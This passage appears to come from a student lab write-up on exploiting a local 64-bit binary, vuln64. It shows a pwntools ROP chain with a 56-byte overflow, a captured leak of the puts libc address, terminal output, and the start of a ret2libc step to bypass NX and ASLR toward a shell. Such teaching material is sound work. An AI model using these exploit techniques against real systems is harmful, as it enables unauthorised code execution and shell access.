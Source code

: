 ```sh
rop= ROP(elf)
rop.call(elf.plt['puts'], [elf.got['puts']]) 		
rop.call(elf.sym['helpCommand'])			

offset = 56

payload = [
	b"A" * offset,
	rop.chain()

]
```

Here we go one step further by capturing the leaked address, storing it in our own variable and logging it to the console. We do this by using the rstrip() and ljust() modifiers to unpack the leaked 8 bytes into the 64-bit integer.


```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1429
[*] Loaded 14 cached gadgets for '../app/vuln64'
/home/student/Desktop/assign2/exploit/exploit64.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) #store & unpack output. Perform strip
[*] leaked puts@GLIBC found: 0x7f4a519f75f0
[*] Switching to interactive mode
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$  

```

Code used to capture leaked address in terminal and convert from 8bytes to 64-bit

```sh
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
log.info(f"leaked puts@GLIBC found: {hex(puts)}" )
```

## Bypass NX and ASLR

Now that we have the leaked address, we can determine the libc base address (remember that ASLR is changing the address every time the program is executed). By calculating the distance between the leaked GOT puts() address, we can determine the address of the system[] call; which is used to call our shell.

